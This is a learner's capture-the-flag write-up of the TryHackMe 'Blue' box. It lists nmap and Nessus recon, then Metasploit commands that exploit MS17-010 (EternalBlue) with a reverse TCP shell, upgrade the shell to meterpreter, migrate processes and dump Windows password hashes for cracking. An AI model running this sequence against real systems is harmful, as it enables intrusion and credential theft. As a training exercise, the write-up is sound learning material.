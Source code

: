 ## TryHackMe - (Eternal)Blue Methodology
> Completed 18th March 2022, Revisited 12th May 2022.

This is the attack methodology I used for TryHackMe's Blue box.
This box is a step back from Blueprint in terms of objective progression, however I found it to be a good lesson in fundamentals.

>Edit: On my second attempt at this box I wanted to find the vulnerability via nmap.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nessus
- Metasploit.

---
### Methodology
#### Objectives/Flags
1. Flag1, This flag can be found at the system root.
2. Flag2, This flag can be found at the location where passwords are stored within Windows.
3. Flag3, this flag can be found in an excellent location to loot.

---
#### Reconnaissance
First I started by running an nmap scan on the target. It was disclosed that ICMP was not going to work so I added in the extra `-Pn` into the options.
```bash
nmap -T4 -Pn <TargetIP>
```
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
```
With this portscan I can see that there are several Windows services running on open ports. I figured this was a great time to employ a vulnerability scanner to see what more I could find.
I decided to try Nessus which is a well known vuln. scanner. Once downloading the installation file to my machine and registering for a license...
```bash
sudo apt install -f ./<Nessus.deb>
  service nessusd start
     https://kali:8834/
```
Once Nessus was up and running I set the Target and set it loose. A number of vulnerabilities were flagged and one stood out the most which I took to be relevant to the box.
```
port445 	MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (ETERNALBLUE) (ETERNALCHAMPION) (ETERNALROMANCE) (ETERNALSYNERGY) (WannaCry) (EternalRocks) (Petya) (uncredentialed check)
```

![](/TryHackMe/Blue(Eternal)/images/Blue_001.jpg)

>Edit: Another way this could have been discovered is through the use of nmap's script engine `nmap -T4 -Pn <Target-IP> --script=default,vuln`

![](/TryHackMe/Blue(Eternal)/images/Blue_002.jpg)

#### Weaponization 
N/A

#### Delivery
N/A

#### Exploitation
The box walkthrough mentioned that it was time to use Metasploit which I've never used before. This required a bit of crash-coursing on google to understand the basic usage and commands. After booting it up I searched for the vulnerability code `ms17-010` and designated the local and remote hosts. I had additionally specified the port that was reported through Nessus but I don't know if this was needed.
```bash
metasploit
  search ms17-010
    exploit/windows/smb/ms17_010_eternalblue
      use [0] (exploit/windows/smb/ms17_010_eternalblue)
      set rhost <TargetIP>
      set lhost <LocalIP>
      set lport 445
```
The following option was reccomended by the box's objective guide and I do not have a clear idea of what is does.
```bash
      set payload windows/x64/shell/reverse_tcp 
      run
```
Success, I've now got shell access to the host. From here I was ready to start going for the flags, however the box's objective guide would walk me through upgrading the type of shell access I had to the machine. First, I used ```Ctrl-Z``` to background the process and then worked to upgrade the session.
While still under the ms17-010 exploit I searched for the upgrade.
```bash
search shell_to_meterpreter
  use post/multi/manage/shell_to_meterpreter
sessions -l (used to display current sessions)
  set session 1
  run
```
A new session should spawn which I opened with `sessions 2`.

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
From here I verified the identity.
```bash
getsystem
  Already running as SYSTEM
getuid
    NT AUTHORITY\SYSTEM 
```
An interesting step which the box's objective walkthrough made me take was to migrate the process ID (PID). I didn't know this was possible but was interesting to try. I used ```PS``` to display the processes running on the machine and was tasked to find a process which was under ```NT AUTHORITY\SYSTEM```. This had failed a few times and even crashed the session. I was not surprised by this as it was explained the migrate command was unstable.
The process that I went with:
```
692   596   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
```
```bash
ps 
  migrate 692
```

![](/TryHackMe/Blue(Eternal)/images/Blue_003.jpg)

According to the walkthrough Metasploit can immediately dump the Windows machine's hashes. This was so much more convenient than my attempts at extracting hashes in the Blueprint box. Instead of messing around with Hashcat however, I went straight to crackstation.
```
hashdump
  Administrator:500:<Hash>:<Hash>:::
  Guest:501:<Hash>:<Hash>:::
  Jon:1000:<Hash>:<Hash>:::
    https://crackstation.net/
      Insert <hash> -> crack
        <password>
```

After this was successful, I got to work on the flags. Considering the descriptions on their locations and my interaction with the previous box (Blueprint) I knew where these were going to be.
```
Navigated to C:\
  flag1.txt
    cat flag1.txt
		
Listing: C:\Windows\system32\config
  flag2.txt
    cat flag2.txt

Listing: C:\Users\jon\Documents
  flag3.txt
    cat flag3.txt
  ```
---
### After-action
#### What I've learned
I really enjoyed this box as I got to explore some more powerful industry tools. Fortunately, I've had experience with vulnerability scanners in the past so Nessus was really straight forward and familiar to use, navigate and understand. Metasploit, however was something I had never really used before but have heard so much about so getting my hands on with an objective was fantastic. I will definitely look to leverage its power in future exercises.

#### What I would've done differently
I would've liked to use screenshots to go along with these blog entries however the administration behind it would probably do my head in. I would however be looking into options of screen-recoding for my own sake of documentation and will allow me to better reflect on my steps.

>Edit: I am happy with my second attempt at this box. I still have some confusion as to why we close the [0] options when searching for ms17-010 exploits.
